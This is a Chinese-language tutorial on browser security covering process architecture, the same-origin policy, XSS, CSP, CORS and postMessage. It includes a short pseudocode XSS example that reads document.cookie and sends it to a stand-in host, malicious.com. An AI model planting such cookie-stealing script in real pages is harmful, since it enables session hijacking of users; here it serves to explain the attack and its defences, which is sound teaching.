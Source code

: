 ## 一、浏览器安全

无风险的世界不存在，包括浏览器，我们知道Web世界是开放的，包容的。但是开放和风险是对立的。

Web 世界会是开放的，任何资源都可以接入其中，我们的网站可以加载并执行别人网站的脚本文件、图片、音频 / 视频等资源，甚至可以下载其他站点的可执行文件。

比如你打开了一个银行站点，然后又一不小心打开了一个恶意站点，如果没有安全措施，恶意站点就可以做很多事情：
- 修改站点的 DOM、CSSOM 等信息；
- 在银行站点内部插入 JavaScript 脚本；
- 劫持用户登录的用户名和密码；
- 读取银行站点的 Cookie、IndexDB 等数据；
- 甚至还可以将这些信息上传至自己的服务器，这样就可以在你不知情的情况下伪造一些转账请求等信息。

在没有安全保障的 Web 世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全，这就引出了页面中最基础、最核心的安全策略，同源策略（Same-origin policy）

浏览器安全可以分为三大块——Web 页面安全、浏览器网络安全、浏览器系统安全


![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/c2f93c6deb6f4f9d82c5baf593e1ff68~tplv-k3u1fbpfcp-watermark.image?)

## 二、浏览器是如何工作的

思考几个问题：
- 为什么某些页面会崩溃？
- 为什么页面崩溃后重新打开就正常了？
- 为什么单个tab页面、插件崩溃不会影响其他Tab？
- 为什么有时候浏览器突然退出？


![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/fadd1da2be7c4d0bbd387f00f90ec2ba~tplv-k3u1fbpfcp-watermark.image?)

浏览器的单进程架构和多进程架构

![image.png](https://cdn.jsdelivr.net/gh/richLpf/pictures@main/gitbook/1639462591891%E5%90%8C%E6%BA%90.png)

单进程架构：不稳定，不安全，所有的处理都在一个进程中，某个线程出现问题，浏览器就会崩溃

多进程架构：不同功能的进程相互分离，每个页面都会有一个渲染进程，做到了进程隔离，某个进程的奔溃不会导致整个浏览器的崩溃


## 三、什么同源策略？

如果两个 URL 的`协议`、`域名`和`端口`都相同，我们就称这两个 URL 同源

```
http://ux.admin.com/task
http://wx.admin.com/ticket
https://ux.admin.com/ticket
http://csm.admin.com/dashboard
https://ux.admin.com:8080/api
```
浏览器默认两个相同的源之间是可以相互访问资源和操作 DOM 的。

### 1、Dom安全

通过window.open打开页面

![操作常见的源](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/bf630d9518f94e40815e19fb78867f7f~tplv-k3u1fbpfcp-zoom-1.image)

![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/58c656e7985b46ebb1dae3ee66094468~tplv-k3u1fbpfcp-zoom-1.image)

![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/ef7744ce93584fdd87b04b132334a826~tplv-k3u1fbpfcp-zoom-1.image)

### 2、数据层面。

同源策略限制了不同源的站点读取当前站点的 Cookie、IndexDB、LocalStorage 等数据。由于同源策略，我们依然无法通过第二个页面的 opener 来访问第一个页面中的 Cookie、IndexDB 或者 LocalStorage 等内容。

### 3、网络层面。

同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。你还记得在

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/04f27ce76e2e4714a6d3b10f40c782ba~tplv-k3u1fbpfcp-watermark.image?)
![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/b506a5bebe534d8aa30ac41ecf923593~tplv-k3u1fbpfcp-watermark.image?)

以上就是同源策略，同源策略会隔离不同源的Dom、数据和网络通信等。

但在实际工作中，常常需要不同域名进行访问，不同资源的访问，所以为了发展，就需要出让一些安全策略，满足发展的需要。

## 四、同源策略带来的一些问题

### 1、页面中可以嵌入第三方资源

Web 世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 HTML 文件、JavaScript 文件、CSS 文件、图片等资源都部署在同一台服务器上，这无疑违背了 Web 的初衷，也带来了诸多限制。

比如将不同的资源部署到不同的 CDN 上时，CDN 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。

比如，恶意程序在 HTML 文件内容中插入如下一段 JavaScript 代码：

![](https://cdn.jsdelivr.net/gh/richLpf/pictures@main/gitbook/1639461015639xss2.png)

当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。


除此之外，它还能将页面的的敏感数据，如 Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：

```js
function onClick(){ 
    let url = `http://malicious.com?cookie = ${document.cookie}` 
    open(url)
}

onClick()
```

在这段代码中，恶意脚本读取 Cookie 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 Cookie 信息。

以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。

CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码

通过这些手段就可以大大减少 XSS 攻击。

### 2、跨域资源共享

为了解决这个问题，我们引入了跨域资源共享（CORS)

使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。

正常情况下发送跨域请求，浏览器自动添加Origin字段，告诉服务器本次请求的协议、域名和端口号

```
GET /cors HTTP/1.1
Origin: http://api.bob.com
Host: api.alice.com
Accept-Language: en-US
Connection: keep-alive
User-Agent: Mozilla/5.0...
```
返回相应头中包含了可以允许跨域的信息，如果响应头中没有包含Access-Control-Allow-Origin，就可能出现错误
```
Access-Control-Allow-Origin: http://api.bob.com
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: FooBar
Content-Type: text/html; charset=utf-8
```
withCredentials

CORS请求默认不发送Cookie和HTTP认证信息

如果要发送服务器，服务器和客户端都要增加参数

```
Access-Control-Allow-Credentials: true
```

```
var xhr = new XMLHttpRequest();
xhr.withCredentials = true;
```


### 3、跨文档消息机制

可以通过 window.postMessage 的 JavaScript 接口来和不同源的 DOM 进行通信。


```js
/*
 * A窗口的域名是<http://example.com:8080>，以下是A窗口的script标签下的代码：
 */

var popup = window.open(...popup details...);

// 如果弹出框没有被阻止且加载完成

// 这行语句没有发送信息出去，即使假设当前页面没有改变location（因为targetOrigin设置不对）
popup.postMessage("The user is 'bob' and the password is 'secret'",
                  "https://secure.example.net");

// 假设当前页面没有改变location，这条语句会成功添加message到发送队列中去（targetOrigin设置对了）
popup.postMessage("hello there!", "http://example.org");

function receiveMessage(event)
{
  // 我们能相信信息的发送者吗?  (也许这个发送者和我们最初打开的不是同一个页面).
  if (event.origin !== "http://example.org")
    return;

  // event.source 是我们通过window.open打开的弹出页面 popup
  // event.data 是 popup发送给当前页面的消息 "hi there yourself!  the secret response is: rheeeeet!"
}
window.addEventListener("message", receiveMessage, false);

```


## 五、小结

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/0c6dcc8f3ce74d96b1fd195f75e1d826~tplv-k3u1fbpfcp-watermark.image?)


## 六、参考文章
- [阮一峰CORS](http://www.ruanyifeng.com/blog/2016/04/cors.html)
- [csp](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)
